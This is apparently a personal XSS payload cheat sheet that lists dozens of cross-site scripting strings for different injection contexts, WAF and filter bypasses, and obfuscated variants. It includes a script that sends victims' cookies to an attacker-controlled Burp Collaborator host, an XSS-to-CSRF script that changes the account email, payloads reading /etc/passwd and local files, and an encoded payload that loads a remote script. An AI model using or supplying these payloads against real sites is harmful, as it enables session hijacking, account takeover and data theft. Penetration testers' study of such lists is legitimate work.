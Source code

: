 # XSS

Cheat Sheet : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

"sink" refers to a point in the code where user-controlled data is incorporated into the web page's HTML or JavaScript

`<script>alert(1)</script>`

`"><svg onload=alert(1)>`

`<img src=1 onerror=alert(1)>`

`javascript:alert(document.cookie)`  -- In href senario

`"onmouseover="alert(1)`

`javascript:alert(1)`

`'-alert(1)-'`

`<img%20src=1%20onerror=alert(1)>`

`{{$on.constructor('alert(1)')()}}`  - DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`\"-alert(1)}//` - DOM

`<><img src=1 onerror=alert(1)>`  - where 1st angle brackets are removed by server

`<xss id=x onfocus=alert(document.cookie) tabindex=1>#x'` Custom tags

`<svg><animatetransform onbegin=alert(1)>`  SVG Injection to XSS

`</script><script>alert(1)</script>`  single quote and backslash escaped

`\'-alert(1)//` angle brackets and double quotes HTML-encoded and single quotes escaped

`${alert(1)}` into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

`<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>`   To Steal Cookies, cookies will be send to us.

XSS to CSRF:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>` Reflected XSS with event handlers and href attributes blocked

`<>javascript:alert(document.cookie);`

`<>//google.com` - open redirect

`<script> window.location.href = 'https://malicious-site.com'; </script>`  Open Redirect via XSS

---

`>>>>>><marquee>RXSS</marquee></head><abc%3E</script><script>alert(document.cookie)</script><meta` reflected input

`var a = document[.]querySelector('[nonce]');` 
![[Pasted image 20240527171129.png]]


```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>  
"'`><\x3Cimg src=xxx:x onerror=javascript:alert(1)>  
<math><x xlink:href=javascript:confirm`1`>click  
<script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/  
<svg onload=alert&#0000000040document.cookie)>  
  
JavaScript://%250Aalert?.(1)//  
'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!-->  
</Title/</Style/</Script/</textArea/</iFrame/</noScript>  
\74k<K/contentEditable/autoFocus/OnFocus=  
/*${/*/;{/**/(alert)(1)}//><Base/Href=//[google.com](http://google.com/)\76-->  
  
  
<detalhes%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%230000000000000000041//  
  
xss'"><iframe srcdoc='%26lt;script>;alert(1)%26lt;/script>'>  
  
javascript:%ef%bb%bfalert(XSS)  
  
<input accesskey=X onclick="self['wind'+'ow']['one'+'rror']=alert;throw 1337;">  
  
<svg onload="[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162'] ('\141\154\145\162\164\50\61\51')()">  
  
"><video><source onerror=eval(atob([http://this.id](http://this.id/))) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYXlkaW5ueXVudXMueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61;>  
  
&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;  
  
  
<svg><use href="data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnPgo8aW1hZ2UgaHJlZj0iMSIgb25lcnJvcj0iYWxlcnQoMSkiIC8+Cjwvc3ZnPg==hashtag#x" /></svg>  
  
"`'><script>\xE2\x80\x87javascript:alert(1)</script>  
  
  
<img/src=x onError="`${x}`;alert(`Hello`);">  
"`'><script>\xE2\x80\x87javascript:alert(1)</script>  
  
"%2Bself[%2F*foo*%2F'alert'%2F*bar*%2F](self[%2F*foo*%2F'document'%2F*bar*%2F]['domain'])%2F%2F  
  
"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>  
  
&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;
```

XSS payload to get /etc/passwd file 

```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///etc/hosts’);x.send();</script>


<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///etc/passwd’);x.send();</script>


<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///some/file’);x.send();</script>
```

XSS to SSRF

```
Input the following code in the vulnerable field:  
<iframe src="http://localhost/some/directory"></iframe>  
  
You can also read local files:  
<iframe src="file:///C:/Windows/win.ini" width="500" height="500">
```

Reflected XSS

`abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e`  --> 

```
abc`;return+false});});alert`xss`;</script>
```

`%60%2balert/**/(1)%2b%60`  --> `+alert/**/(1)+` 

WAF Bypass

`<ScRiPt></sCrIpT>`

`<h1 oNLY OnMouseover=prompt('XSS')>`

`+%22+onmouseover=%22alert(document.cookie)%22%3E%3C!--`

`<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>`


